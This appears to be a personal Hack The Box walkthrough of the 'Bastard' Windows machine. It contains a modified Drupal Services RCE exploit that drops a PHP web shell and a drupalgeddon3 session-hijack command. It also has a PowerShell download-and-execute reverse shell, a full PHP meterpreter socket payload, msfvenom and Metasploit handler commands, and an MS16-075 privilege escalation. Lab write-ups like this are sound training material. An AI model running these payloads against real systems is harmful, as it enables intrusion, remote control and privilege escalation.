

**Start 17:11 14-08-2024**

---
```
10.10.10.9
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sT -sV -T5 -vvvv -p- 10.10.10.9
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 16:10 IST

</SNIP >

PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

</SNIP >

Nmap done: 1 IP address (1 host up) scanned in 162.27 seconds
```

Seems like the site is using `Drupal 7.xx` as it's [Content Management System](https://www.ibm.com/topics/content-management-system).
From our `nmap` scan we see some interesting to us endpoints, including the `/CHANGELOG.txt` file.


## Exploit.db
It appears the target machine is using `Drupal 7.54`. Let's try to find out more about this version.


We have a `CVE` and a script which we can use, let's download it and run it against the target.
I have modified the script to suit our purpose:

```php
define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'pwned.php',
    'data' => '<?php echo(system($_GET["cmd"])); ?>'
];
```

>The above `/rest` endpoint can be found by doing a `directory enumeration`. As `gobuster` as well as `dirsearch` were incredibly slow for this machine I lost my patience and decided to cheat by searching it up.

Now that our script is modified we need to install `php-curl` first before moving on or it will throw an error.

As soon as it is it done we can run the exploit with `php 41564.php`:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ php 41564.php 
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/writeup.php
```

Great, let's check it out.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1492102672",
    "login": 1723650662,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
} 
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat session.json 
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "N0MMmkYGRL3LvgNNt7_gwYiY4CiP7tdVphB6Rws3_G8",
    "token": "26utNbWhmQ-RiUEygWDMpMSIsMPzsyhEHMtVXtwIJBA"
} 
```

Now that we have all these juicy details we can start utilizing it. We put the `admin` hash inside a file called `admin.hash` and try to crack it using `Hashcat`:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat admin.hash                                                                   
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-penryn-AMD Ryzen 5 5600X 6-Core Processor, 2919/5902 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

7900 | Drupal7 | Forums, CMS, E-Commerce
```

We figured out it's a Drupal7 hash (as expected) and the mode for it is `7900`.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -m 7900 admin.hash /usr/share/wordlists/rockyou.txt.gz -o cracked.txt --force
```

While that is cracking we'll try our chances at the web shell which we have got:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.10.10.9/writeup.php?cmd=whoami                 
nt authority\iusr
```

It appears that we are the `iusr` user.


## 80/TCP - HTTP

After this I tried some different methods but failed, thus I retraced back to the `session.json` file and nabbed the `name and id` from it and pasted them into the `network` tab on the webpage. I then went to the `/admin` endpoint and got easy access  as the `admin` account.


When enumerating the site further we stumble upon the `Find content tab`.


Funny, we can find an exploit that matches these exact criteria:

```bash
# CVE-2018-7602
You must be authenticated and with the power of deleting a node. Some other forms may be vulnerable : at least, all of forms that is in 2-step (form then confirm).
```

We can download [this script](https://raw.githubusercontent.com/oways/SA-CORE-2018-004/master/drupalgeddon3.py) and use it along with our `admin cookie` in order to get `Remote code execution`.

```bash
┌──(kali㉿kali)-[~]
└─$ cat drup.py 
#!/usr/bin/python

'''
Author: Oways
https://twitter.com/0w4ys
https://github.com/oways

[Usage]
python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]

[Example]
python drupalgeddon3.py http://target/drupal/ 'SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0' 6 'uname -a'
```

In our case it should look like this:

```bash
# For session input "session_name" as well as "session_id" seperated by =

┌──(kali㉿kali)-[~]
└─$ python drup.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=N0MMmkYGRL3LvgNNt7_gwYiY4CiP7tdVphB6Rws3_G8" 1 "whoami"

nt authority\iusr
```

Yet again we get the output we want, great.

### Nishang shell
Now we need to upload a `powershell reverse-shell`. For this we will use [this Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. Save this shell under `shell.ps1`. We just need to add this line all the way in the end of the file:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 443
```

We can now try to upload this shell using the following commands, and of course we don't forget our listener!

```bash
python drup.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=N0MMmkYGRL3LvgNNt7_gwYiY4CiP7tdVphB6Rws3_G8" 1 "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.24/shell.ps1')"
```

```bash
python -m http.server 80
```

```bash
nc -lvnp 443
```

And it should work just fine! 

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [14/Aug/2024 18:07:56] "GET /shell.ps1 HTTP/1.1" 200 -
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443  
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.9] 50578
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>
```

## System enumeration
```powershell
PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          14/8/2024, 6:07:27 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.500 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.496 MB
Virtual Memory: In Use:    599 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
PS C:\inetpub\drupal-7.54>
```

By checking the `systeminfo` we notice that it's a totally fresh installed version of `Windows Server 2008`. Let's see if there's any noticeable exploits for it. After checking out [this GitHub page](https://github.com/SecWiki/windows-kernel-exploits/tree/master) there's one that might be the most useful to us: `MS15-051`.

I downloaded the `MS15-051-KB3045171.zip` folder and then unzipped it.

```bash
┌──(kali㉿kali)-[~/Downloads/MS15-051-KB3045171]
└─$ ls -l
total 108
drwxrwxr-x 3 kali kali  4096 Nov  7  2015 Source
-rw-rw-r-- 1 kali kali 48128 May 13  2015 ms15-051.exe
-rw-rw-r-- 1 kali kali 55296 May 13  2015 ms15-051x64.exe
```

From here we want to upload the `x64` version to the machine and then run it.

## Privilege Escalation
We upload and run the script using the following command:

```powershell
\\10.10.14.24\kali\ms15-051.exe "whoami"
```

Unsuccessful, the above attempt did not work on any of the resets so I tried different methods.

After a long while of searching and digging I settled on [another walkthrough](https://blog.amartinsec.com/writeups/bastard_htb/) and decided to follow their methods.


### Meterpreter

Since the previous attempts failed I decided to use the `meterpreter` method instead. For that we'll have to modify our original file with which we uploaded to the website.

```php
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$payload = <<<'EOD'
/*<?php /**/ error_reporting(0); $ip = '10.10.14.13'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
EOD;

$file = [
    'filename' => 'shelly.php',
    'data' => $payload
];

# Ironically Windows Defender deleted my whole writeup because of this code block
```

I also configured a `PHP msfvenom payload`:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f raw -o shell.php
```

After the payload has been configured we'll want to boot up `metasploit` and start a listener:

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
run
```

Now that the listener is ready I ran the exploit again:

```bash
php 41564.php
```

Now I generated `another Windows Meterpreter` payload with `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 -f exe -o shell.exe
```

After this I opened a new tab and in there I booted another instance of `msfconsole`:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4445
run
```

Next thing I did was upload the payload to the target. Within the `first msfconsole` I uploaded the `shell.exe` file we created using:

```bash
upload shell.exe
```

Once it is uploaded I started it up using:

```bash
execute -f shell.exe
```


### Local Exploit Suggester
Now that all the previous steps are done we can start enumerating the machine and finding vulnerabilities for it. We can use [this script for it](Windows%20Privilege%20Escalation.md#Metasploit#Exploit%20Suggester)

```bash
run post/multi/recon/local_exploit_suggester
```

After running the above I went with `windows/local/ms16_075_reflection_juicy`. I `backgrounded` my `meterpreter session` and set up the new exploit as follows:

```bash
background
# note the session number
use exploit/windows/local/ms16_075_reflection_juicy
set session <session number>
set LHOST tun0
set LPORT 4446
run
```



As you can see we get a `root shell`.


## Flags

### user.txt
I got the `user` flag before the `Meterpreter` attempt.
```powershell
PS C:\Users\dimitris\Desktop> type user.txt
0fb85bcc135192b0b0b8d4b03e5fdc8e
```

### root.txt
Instead of going through the `shell` method I opted the easy way:
```bash
meterpreter > cat "C:\Users\Administrator\Desktop\root.txt"
82572a3766e1592c7522f67dad6b7e41
```


---

>All in all this was the first `Medium` box for me and it really showed. I struggled significantly and had to use lots of resources to get a proper foothold.


**Finished 21:17 14-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
